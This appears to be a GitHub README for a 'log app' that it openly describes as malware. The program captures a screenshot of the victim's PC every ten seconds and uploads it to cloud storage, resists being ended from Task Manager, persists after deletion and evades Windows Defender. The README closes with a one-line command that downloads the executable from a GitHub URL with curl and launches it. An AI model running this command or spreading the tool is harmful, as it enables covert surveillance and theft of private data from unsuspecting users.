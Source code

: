 # log app

#### The log.exe and log_v1.0.exe is a malware that will send screenshot of your pc every 10secs to a cloud based storage.

#### The log_v1.0 is an updated version of the original log.exe. This version adds a new feature to the malware, which prevents the user from manually killing the malware from the taskmanager. The victim has to use the terminal to kill the app.

#### Both versions of the malware can not be killed by simply deleting. Even though the malware might seem deleted the malware will still run and affect your computer.

#### Windows defender will not block the malware during installation or stop it while its running.

#### In order to test the malware in your virtual machine, simply install and run the malware or type the following command in the command prompt `mkdir C:/tempapp; curl -o "C:/tempapp/log.exe" https://github.com/falahabubacker/scripts-apps/blob/main/log_v1.1.exe; START C:/tempapp/log.exe;`
